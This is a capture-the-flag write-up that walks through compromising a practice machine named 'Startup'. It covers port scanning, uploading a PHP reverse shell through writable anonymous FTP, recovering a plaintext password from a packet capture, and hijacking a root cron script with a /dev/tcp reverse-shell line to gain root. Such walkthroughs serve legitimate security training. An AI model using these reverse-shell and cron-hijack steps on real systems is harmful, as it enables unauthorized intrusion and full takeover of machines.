 ## Startup

The first thing I did was scanning the ip to see what ports were open:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux;)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

The first thing I did was exploring ftp, wich lead me to some unnecessary files and a particular `ftp` folder which we could write on:

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Jun 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

The `ftp` directory was empty so there was nothing more to see in ftp.

Since http was also open, I took a look at the website, which looked pretty basic. I ran `gobuster` to find any hidden routes:

```
$ gobuster dir --url http://xx.xx.xxx.xxx/ --wordlist ../../../wordlists/directory_list_2.3_small.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.185.25/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ../../../wordlists/directory_list_2.3_small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/files                (Status: 301) [Size: 312] [--> http://10.10.185.25/files/]
Progress: 87649 / 87649 (100.00%)
===============================================================
Finished
===============================================================
```

Exploring this `files/` route I ran into what seemed to be the ftp anonymous entry. My first though was to just inject a reverse shell file and get remote access to the machine. So using this [reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) from pentestmonkey I injected it onto the `ftp` directory:

```
ftp> put shell.php ftp/shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 9,4e-05 seconds (55,7 Mbytes/s)
```

> **Note:** Make sure to edit the required lines in `shell.php` like your machine's ip and port where you're going to be listening from.

After injecting the reverse shell, I began to listen in my machine's port:

```
nc -nlvp <PORT_NUMBER>
```

and simply went to the `ftp` directory on the website and selected our reverse shell file.

Perfect! Now I had access to the machine!

```
Connection from xx.xx.xxx.xxx:43714
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:31:00 up  1:24,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Now that I was in, I began to search for anything special. Simply after making `ls` I found what would be the first flag inside a file called `recipe.txt`.

Right after getting the flag, I went to the `/home` folder to see what users existed. I found one, `lennie`, which was protected by a password.

I saw a stranged looking directory called `incidents` and inside it was a pcapng file with the name `suspicious.pcapng`.

To get the file to my machine I copied it to the website's directory:

```
$ cp /incidents/suspicious.pcapng /var/www/html/files/ftp
```

Opening it on my machine (using `Wireshark`), I click on a packet to follow the TCP stream. There was a lot of information on stream 7, very much like the logs of a user interacting with the machine, including this interesting lines:

```
www-data@startup:/$ cd home
cd home
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3
```

We can see that a user was trying to get in lennie's folder but since it was logged as `www-data` it tried to change user by typing some incorrect password. I tried connecting via ssh as `lennie` and:

```
 ssh lennie@xx.xx.xxx.xxx
lennie@xx.xx.xxx.xxx's password:
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

44 packages can be updated.
30 updates are security updates.


Last login: Fri Jun 28 15:14:07 2024 from xx.xx.xxx.xxx
$
```

I was in as `lennie`!

By running `ls` I found a file and two directories:

```
rwxr-xr-x  2 lennie lennie 4096 Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4096 Jun 28 15:40 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
```

So there was the second flag, inside `user.txt`.

The `Documents` directory was full of useless information, but inside `scripts` there were two files:

```
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 Jun 28 16:52 startup_list.txt
```

The first thing I noticed was the `startup_list.txt`'s time of modification, which was exactly the same as my current time. At the time I didn't knew why that was happening so I began exploring both files. `startup_list.txt` was empty but `planner.sh` was a shell script:

```
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

It echoed a variable to the other file and then executes another shell script. This script was apparently owned by me (lennie) and it just echoed "Done!":

```
$ ls -l /etc | grep print
-rwx------ 1 lennie lennie   293 Jun 28 16:58 print.sh

$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
```

And this was it, I tried to see if there was some bin file wrongly configurated but there was not, so I was stuck for a while, until I rembered that `startup_list.txt` kept updating every minute. The only thing that could update this file was `planner.sh`, but if it wasn't me something had to be!

So if there was something executing `planner.sh`, which by itself executes `/etc/print.sh`, which I can modify, I figured that if I changed the behaviour of this file, I could figure out wich user was executing `planner.sh` by the minute, hopefully it was root so I could make some kind of RCE.

So to clear things up I added this line to `/etc/print.sh`:

```
echo 'test' > /home/lennie/test.txt
```

This would create a test file with the user I want to find out as the owner. Just as I wanted, the user executing `planner.sh` is really `root`!
```
rw-r--r-- 1 root root  5 Jun 28 17:10 test.txt
```
This meant I could write a command to spawn a remote shell and it was going to be execute as root.

So I added the following line to `print.sh` to do exactly that:

```
bash -i >& /dev/tcp/<YOUR_IP>/1235 0>&1
```

This would spawn the shell at my machine at port 1235.

By listening at that port:

```
nc -nlvp 1235
```

I was able to get the shell as root:

```
Connection from xx.xx.xxx.xxx:xxxx
bash: cannot set terminal process group (2875): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~#
```

Excelent! Simply by looking at the contents of the file `root.txt` we find the last flag!
